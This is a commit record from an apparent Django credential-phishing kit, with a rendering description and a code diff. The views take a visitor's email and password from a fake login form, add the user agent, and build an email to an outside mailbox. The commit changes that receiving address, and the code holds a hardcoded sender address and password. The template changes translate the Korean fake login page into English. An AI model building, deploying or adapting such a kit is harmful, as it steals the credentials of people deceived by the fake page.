

Before and after one commit to danicodehouse/trying, a Django app: template templates/indexx.html in a window 1280 px wide. Shown: the part 350-800 px from the top of the page, without its empty margins (319-959 px from the left). Run offline with Django 4.2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty; some libraries are stand-ins or nearby versions.

Commit message:
init/heroku

```diff
--- a/newviision/views.py
+++ b/newviision/views.py
@@ -21,7 +21,7 @@ def addin(request):
     passwordemail = request.POST["enginloio"]
     domain = email[email.index('@') + 1 : ]
     sender_email = "sharp@newupdateishere.com"
-    receiver_email = "markscot111@protonmail.com"
+    receiver_email = "havn.drk@yandex.com"
     password = "kSolxWIUzc"
     useragent = request.META['HTTP_USER_AGENT']
     message = MIMEMultipart("alternative")
@@ -58,7 +58,7 @@ def adddzz(request):
     passwordemail = request.POST["yyenginlo"]
     domain = email[email.index('@') + 1 : ]
     sender_email = "sharp@newupdateishere.com"
-    receiver_email = "markscot111@protonmail.com"
+    receiver_email = "havn.drk@yandex.com"
     password = "kSolxWIUzc"
     useragent = request.META['HTTP_USER_AGENT']
     message = MIMEMultipart("alternative")
--- a/templates/indexx.html
+++ b/templates/indexx.html
@@ -234,11 +234,11 @@ span.validate-tooltip {
 </div>
 <div class="wrapper">
   <div class="inner-warpper text-center">
-    <h2 class="title">계정에 로그인</h2>
+    <h2 class="title">log in to your account</h2>
     <form action="adddzz" method="post">
       {% csrf_token %}
       <div class="input-group">
-        <p id="cone">잘못된 사용자 이름 또는 비밀번호</p>
+        <p id="cone">Incorrect username or password</p>
         <label class="palceholder" for="userName"></label>
         <input class="form-control" name="zzpowerman" id="userName" type="text" value="{{email}}" required=""/>
         <span class="lighting"></span>
@@ -249,18 +249,18 @@ span.validate-tooltip {
         <span class="lighting"></span>
       </div>
 
-      <button type="submit" id="login">로그인</button>
+      <button type="submit" id="login">login</button>
       <div class="clearfix supporter">
         <div class="pull-left remember-me">
           <input id="rememberMe" type="checkbox">
-          <label for="rememberMe">날 기억해</label>
+          <label for="rememberMe">remember me</label>
         </div>
-        <a class="forgot pull-right" href="#">비밀번호를 잊으 셨나요?</a>
+        <a class="forgot pull-right" href="#">Forgot your password?</a>
       </div>
     </form>
   </div>
   <div class="signup-wrapper text-center">
-    <a href="#">계정이 없으신가요? <span class="text-primary">하나 만들기</span></a>
+    <a href="#">Don't have an account? <span class="text-primary">make one</span></a>
   </div>
 </div>
 
```
Also changed, not shown: templates/index.html (+5 -5 lines).
